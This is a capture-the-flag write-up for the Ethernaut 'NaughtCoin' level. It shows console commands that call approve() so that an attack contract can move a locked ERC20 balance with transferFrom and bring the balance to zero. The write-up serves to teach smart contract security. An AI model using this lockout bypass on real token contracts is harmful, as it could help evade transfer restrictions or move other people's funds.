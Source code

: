 # Level 15: NaughtCoin

### Wargame
NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

### Key Insights
* ERC20
* approve
* transferFrom

### Attack Steps
1. Before executing the attack, display the balance of the player address - it would be 1000000 Ether.
    ```bash
    > instance
    '0x9Eb8eD3845271f4fba9781a08C26aA310f72e5A5'

    > player
    '0xEB47eAB0027B0DDd5615D00f9D83eC0e71D3aeFf'

    > myBalance = await contract.balanceOf(player)
    > await fromWei(myBalance)
    '1000000'
    ```

2. Deploy Contract NaughtCoinAttack contract with target address.

3. Calling approve() lets NaughtCoinAttack contract address get permission to spend balance in target contract.
    ```bash
    > await contract.approve("0x656669C4cdEAC2DA1cC0c9F4813B3f5B2d1116D9", myBalance)
    ```

4. Call attack() of NaughtCoinAttack contract with player address.

5. After the attack transaction is confirmed, check the balance value again - it should be zero.
    ```bash
    > myBalance = await contract.balanceOf(player)
    > await fromWei(myBalance)
    '0'
    ```
